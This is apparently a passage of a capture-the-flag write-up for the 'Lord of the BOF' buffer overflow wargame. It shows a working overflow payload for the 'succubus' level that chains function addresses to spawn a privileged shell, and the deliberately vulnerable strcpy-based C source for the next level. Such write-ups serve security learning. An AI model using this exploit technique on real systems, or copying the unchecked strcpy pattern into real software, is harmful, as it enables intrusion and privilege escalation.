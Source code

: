 ㄱㄱㄱ

```shell
[zombie_assassin@localhost zombie_assassin]$ ./succubus `python -c 'print "A"*44+"\xec\x87\x04\x08"+"\xbc\x87\x04\x08"+"\x8c\x87\x04\x08"+"\x5c\x87\x04\x08"+"\x24\x87\x04\x08"+"AAAA"+"\x88\xfa\xff\xbf"+"/bin/sh"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA󽮢in/sh
welcome to the DO!
welcome to the GYE!
welcome to the GUL!
welcome to the YUT!
welcome to the MO!
bash$ id
uid=516(zombie_assassin) gid=516(zombie_assassin) euid=517(succubus) egid=517(succubus) groups=516(zombie_assassin)
bash$ my-pass
euid = 517
here to stay	
```





## STAGE 18 : succubus -> nightmare

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
	char buffer[40];
	char *addr;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// check address
	addr = (char *)&strcpy;
        if(memcmp(argv[1]+44, &addr, 4) != 0){
                printf("You must fall in love with strcpy()\n");
                exit(0);
        }

        // overflow!
        strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

	// dangerous waterfall
	memset(buffer+40+8, 'A', 4);
}
```
